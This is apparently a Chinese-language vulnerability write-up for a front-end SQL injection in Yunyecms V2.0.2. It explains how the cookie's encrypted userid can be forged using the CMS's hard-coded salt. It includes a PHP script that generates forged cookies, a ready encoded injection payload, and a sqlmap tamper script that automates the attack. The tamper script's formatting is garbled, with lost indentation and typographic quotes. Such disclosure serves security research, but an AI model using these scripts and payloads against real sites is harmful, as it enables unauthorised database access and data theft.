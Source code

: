 ```yaml
---
title: Yunyecms V2.0.2 前台注入漏洞（二）
id: zhfly3293
---
```


# Yunyecms V2.0.2 前台注入漏洞（二）

## 一、漏洞简介

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

## 二、漏洞影响

yunyecms 2.0.2

## 三、复现过程

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![image](../img/5c2ccbec4693120d97672527b496e52a.png)

经过了加密处理，根据解密算法**yunyecms_strdecode**可以在corefun.php找到对应的加解密算法

![image](../img/3050b5f9563f88d1b4e4d47d94bdff88.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![image](../img/47c753a958061e48712be96f562e99b8.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![image](../img/72008b3d369e7a2796c3bf7de8b662a1.png)

```
YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ== 
```

payload生成代码front-test.php为：

```
<?php
function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
}
function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
	$retstr=base64_decode($string);
	$SHA1salt=substr(sha1($salt),0,35);
	$md5salt=substr(md5($salt),8,18);
    $retstr=substr($retstr,strlen($md5salt));
    $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
	return base64_decode($retstr);
}
if ($_GET['cookie']) {
	$string=$_GET['cookie'];
	$userid=yunyecms_strdecode($string);
	echo $userid;
}
if($_GET['userid']){
	$string=$_GET['userid'];
	$cookie=yunyecms_strencode($string);
	echo $cookie;
} 
```

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![image](../img/0a2b1d531eaa7050072a5a2941fd9441.png)

跟入pagelist函数，将$where拼接到了sql查询语句中$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![image](../img/1cbc4e8dbb3f925767f4e6e4666a743b.png)

详细查看下该函数，直接进行了sql查询。

![image](../img/2d015afa15854cb9c44c19f6ee663639.png)

附上截

![image](../img/f9bb9af3c6eaa6a8bf38233ac824b272.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![image](../img/1e186f38e62a2268cb817da5979fe8c0.png)

对应tamper的的脚本为

```
yunyecms_front_sqli_tamp.py
#!/usr/bin/env python

“”"

Copyright © 2006-2018 sqlmap developers ([http://sqlmap.org/](http://sqlmap.org/))

See the file ‘LICENSE’ for copying permission

“”"

import base64

import hashlib

from lib.core.enums import PRIORITY

from lib.core.settings import UNICODE_ENCODING

**priority** = PRIORITY.LOW

def dependencies():

pass

def md5(data):

hash_md5 = hashlib.md5(data)

md5data=hash_md5.hexdigest()[8:18]

return md5data

def sha1(data):

string_sha1=hashlib.sha1(data).hexdigest()[0:35]

return string_sha1

def yunyecms_strencode(string):

salt=’~^y#u%n$y^e*c%m^s^~’

return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))

def tamper(payload, **kwargs):

“”"

Base64-encodes all characters in a given payload

```
&gt;&gt;&gt; tamper("1' AND SLEEP(5)#")
'MScgQU5EIFNMRUVQKDUpIw=='
"""

return yunyecms_strencode(payload) if payload else payload 
``` 
```